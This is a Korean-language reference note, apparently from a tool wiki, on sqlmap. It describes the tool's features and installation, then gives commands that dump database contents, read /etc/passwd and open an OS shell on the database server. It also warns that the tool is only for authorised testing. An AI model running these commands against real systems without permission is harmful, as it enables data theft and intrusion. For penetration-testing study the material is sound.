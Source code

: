 ```yaml
---
tags:
  - windows
  - linux
  - mac
  - webapp
  - debugging
  - injection_test
  - web_security
---
```

## 설명
---
`sqlmap`은 SQL 인젝션 취약점을 자동으로 탐지하고 악용하는 오픈소스 침투 테스트 도구입니다. 데이터베이스 서버의 취약점을 스캔하고, 데이터베이스 내용에 접근하며, 심지어 파일 시스템에 접근하거나 운영체제에서 명령을 실행할 수도 있습니다.

## 설치 영역
---
`sqlmap`은 Python 스크립트이므로, 특정 고정된 설치 경로가 없습니다. 일반적으로 GitHub에서 클론하거나 pip로 설치한 디렉토리에서 실행됩니다.

## 주요 기능
---
- `자동 SQL 인젝션`: 다양한 SQL 인젝션 기술(Boolean-based blind, Time-based blind, Error-based, UNION query-based, Stacked queries, Out-of-band)을 자동으로 탐지하고 악용합니다.
- `데이터베이스 접근`: 데이터베이스 이름, 테이블, 컬럼, 데이터 등을 추출합니다.
- `파일 시스템 접근`: 데이터베이스 서버의 파일 시스템에서 파일을 읽거나 쓸 수 있습니다.
- `운영체제 명령 실행`: 데이터베이스 서버의 운영체제에서 명령을 실행하고 결과를 가져올 수 있습니다.
- `다양한 데이터베이스 지원`: MySQL, Oracle, PostgreSQL, Microsoft SQL Server, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, HSQLDB, H2 등 다양한 데이터베이스를 지원합니다.
- `웹 애플리케이션 방화벽(WAF) 우회`: 다양한 WAF 우회 기술을 내장하고 있습니다.

## 설치 방법
---
`sqlmap`은 Python으로 작성되었으며, GitHub에서 소스 코드를 클론하거나 pip를 통해 설치할 수 있습니다.

1.  **Python 설치**: 시스템에 Python 2.7 또는 Python 3.x가 설치되어 있어야 합니다.

2.  **GitHub에서 클론 (권장)**:
    ```sh
    git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
    ```
    *   클론 후 `sqlmap-dev` 디렉토리로 이동하여 `python sqlmap.py` 명령어로 실행합니다.

3.  **pip로 설치 (일부 기능 제한)**:
    ```sh
    pip install sqlmap
    ```
    *   pip로 설치 시 일부 기능(예: 최신 개발 버전의 기능)이 제한될 수 있습니다.

## 간단 가이드
---
1.  **기본 SQL 인젝션 테스트**: 대상 URL에 대해 SQL 인젝션 취약점을 테스트합니다.
    ```sh
    python sqlmap.py -u "http://example.com/vuln.php?id=1"
    ```

2.  **데이터베이스 목록 추출**: 대상 서버의 데이터베이스 목록을 추출합니다.
    ```sh
    python sqlmap.py -u "http://example.com/vuln.php?id=1" --dbs
    ```

3.  **테이블 목록 추출**: 특정 데이터베이스의 테이블 목록을 추출합니다.
    ```sh
    python sqlmap.py -u "http://example.com/vuln.php?id=1" -D <데이터베이스 이름> --tables
    ```

4.  **컬럼 목록 추출**: 특정 테이블의 컬럼 목록을 추출합니다.
    ```sh
    python sqlmap.py -u "http://example.com/vuln.php?id=1" -D <데이터베이스 이름> -T <테이블 이름> --columns
    ```

5.  **데이터 추출**: 특정 컬럼의 데이터를 추출합니다.
    ```sh
    python sqlmap.py -u "http://example.com/vuln.php?id=1" -D <데이터베이스 이름> -T <테이블 이름> -C <컬럼 이름> --dump
    ```

6.  **파일 읽기**: 데이터베이스 서버의 파일 시스템에서 파일을 읽습니다.
    ```sh
    python sqlmap.py -u "http://example.com/vuln.php?id=1" --file-read "/etc/passwd"
    ```

7.  **운영체제 쉘 접근**: 데이터베이스 서버의 운영체제 쉘에 접근합니다.
    ```sh
    python sqlmap.py -u "http://example.com/vuln.php?id=1" --os-shell
    ```

#### 사용 시 주의 사항
- `sqlmap`은 강력한 침투 테스트 도구이므로, **반드시 소유하거나 명시적으로 허가된 시스템에 대해서만 사용해야 합니다.** 무단 사용은 불법이며 법적 처벌을 받을 수 있습니다.
- 웹 애플리케이션 방화벽(WAF)이나 침입 방지 시스템(IPS)에 의해 탐지될 수 있습니다.

## 관련 URL
---
[sqlmap 공식 웹사이트](http://sqlmap.org/)
[sqlmap GitHub](https://github.com/sqlmapproject/sqlmap)
